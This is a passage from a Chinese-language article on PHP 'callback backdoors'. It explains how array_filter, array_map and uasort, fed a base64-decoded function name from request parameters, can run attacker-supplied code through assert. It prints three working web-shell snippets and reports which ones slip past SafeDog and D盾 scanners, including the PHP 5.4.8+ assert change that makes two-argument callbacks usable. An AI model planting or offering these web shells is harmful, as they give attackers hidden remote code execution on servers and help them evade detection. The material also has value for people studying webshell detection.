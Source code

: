 * * *

进一步思考，在平时的php开发中，遇到过的带有回调参数的函数绝不止上面说的两个。这些含有回调（callable类型）参数的函数，其实都有做“回调后门”的潜力。 我最早想到个最“简单好用的”：

```
$e = $_REQUEST['e'];
$arr = array($_POST['pass'],);
array_filter($arr, base64_decode($e));

```

`array_filter`函数是将数组中所有元素遍历并用指定函数处理过滤用的，如此调用（此后的测试环境都是开着狗的，可见都可以执行）：

![enter image description here](http://drops.javaweb.org/uploads/images/00e588c6b875ab76b42a71c47ef37f8dccb2d057.jpg)

这个后门，狗查不出来，但D盾还是有感应，报了个等级3（显然比之前的等级4要低了）：

![enter image description here](http://drops.javaweb.org/uploads/images/50424ff208ea38b52f17b90d7ebf474b37b466dd.jpg)

类似array_filter，array_map也有同样功效：

```
$e = $_REQUEST['e'];
$arr = array($_POST['pass'],);
array_map(base64_decode($e), $arr);

```

依旧被D盾查杀。

果然，简单的数组回调后门，还是很容易被发现与查杀的。

0x03 php5.4.8+中的assert
======================

* * *

php 5.4.8+后的版本，assert函数由一个参数，增加了一个可选参数descrition：

![enter image description here](http://drops.javaweb.org/uploads/images/5a99592e23bbc30986e57edb251a6f384aad9a1d.jpg)

这就增加（改变）了一个很好的“执行代码”的方法assert，这个函数可以有一个参数，也可以有两个参数。那么以前回调后门中有两个参数的回调函数，现在就可以使用了。

比如如下回调后门：

```
$e = $_REQUEST['e'];
$arr = array('test', $_REQUEST['pass']);
uasort($arr, base64_decode($e));

```

这个后门在php5.3时会报错，提示assert只能有一个参数：

![enter image description here](http://drops.javaweb.org/uploads/images/822b0a49955780d80e62c9d55aa823bf98174207.jpg)

php版本改作5.4后就可以执行了：

![enter image description here](http://drops.javaweb.org/uploads/images/6f5bf250f82815f34e35cf5b2156f77d83953290.jpg)
